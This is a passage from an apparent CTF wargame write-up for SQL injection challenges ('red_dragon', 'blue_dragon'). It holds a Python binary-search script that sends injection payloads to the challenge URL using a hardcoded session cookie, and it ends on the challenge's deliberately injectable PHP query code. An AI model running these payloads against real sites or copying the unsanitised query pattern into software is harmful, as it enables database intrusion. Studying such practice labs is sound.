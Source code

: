 ```php
?>
```

```python
import string
import requests
import time

url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php/"
session = requests.Session()
char = string.printable
header = {
    'Cookie': "PHPSESSID=p9phs3kas3ep8ff1qv7q8mdo2a"
}
p = "id"
f1 = open("numeric.txt", "r")
list = []
num = 0
for ch in f1:
    print(num, ch)
    num = num + 1
    list.append(ch)
s_p = "no"
sp = "Hello admin"
start = 1
final = 1000000000000
step = 2

def binary_search(start , final):
    mid = (final + start) // 2
    print("Mid : " , mid)
    if final < start:
        return mid
    pw = list[0].replace("{pw}", s_p).replace("{i}", str(mid)).replace("\n", "").replace("{quote}", "<")
    get = session.get(url=url, headers=header, params=f"{p}={pw}")
    if sp in get.text:
        return binary_search(start , mid - 1)
    else:
        return binary_search(mid + 1 , final)



binary_search(0 , 10000000000000)
```

payload : id='||no<%23\&no=%0A{i}

## Blue\_Dragon(TIme based)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

```
